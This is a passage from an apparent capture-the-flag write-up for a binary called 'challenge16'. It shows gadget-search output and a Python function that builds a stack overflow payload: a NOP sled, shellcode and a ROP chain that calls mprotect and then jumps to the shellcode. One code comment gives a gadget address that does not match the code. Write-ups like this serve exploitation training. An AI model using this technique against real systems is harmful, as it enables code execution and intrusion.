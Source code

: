 ```
/challenges/challenge16$ python3 print-gadgets.py challenge16 | grep syscall
 4198923: Gadget(0x40120b, ['syscall'], [], 0x0),
 4280524: Gadget(0x4150cc, ['syscall', 'ret'], [], 0x8),
 4302646: Gadget(0x41a736, ['syscall', 'pop rbp', 'ret'], ['rbp'], 0x10),
 4311454: Gadget(0x41c99e, ['syscall', 'pop rbx', 'ret'], ['rbx'], 0x10),
```

So the addresses are as follows:
* 0x446ef3: pop rax; ret
* 0x40178e: pop rdi; ret
* 0x4078be: pop rsi; ret
* 0x4016ab: pop rdx; ret
* 0x4150cc: syscall

Note: `rop.syscall` will return the first one at `0x40120b`, which does not have a ret. 

To build the ropchain, we can just put the addresses of the gadgets at the end
of our exploit data:

```
def makeExploit(offset, address, buf_size=128, nop=b'\x90'):
    alignedAddr = (address & ~(4096-1));

    exploit = nop * (buf_size - len(shellcode))
    exploit += shellcode
    exploit += b'A' * (offset - len(exploit))

    # next 8 bytes in exploit point on SIP

    exploit += p64 ( 0x446ef3 )         # 0x446ef3: pop rax; ret;
    exploit += p64 ( 10 )               # syscall sys_mprotect

    exploit += p64 ( 0x40178e )         # 0x40178e: pop rdi; ret;
    exploit += p64 ( alignedAddr )      # mprotect arg: addr

    exploit += p64 ( 0x4078be )         # 0x4078be: pop rsi; ret;
    exploit += p64 ( 4096 )             # mprotect arg: size

    exploit += p64 ( 0x4016ab )         # 0x4016ab: pop rdx; ret;
    exploit += p64 ( 0x7 )              # protect arg: permissions

    exploit += p64 ( 0x4150cc )         # 0x40120b: syscall; ret

    exploit += p64 ( address )  # continue here, at shellcode

    return exploit
```


## Offset

Offset is `1048`:

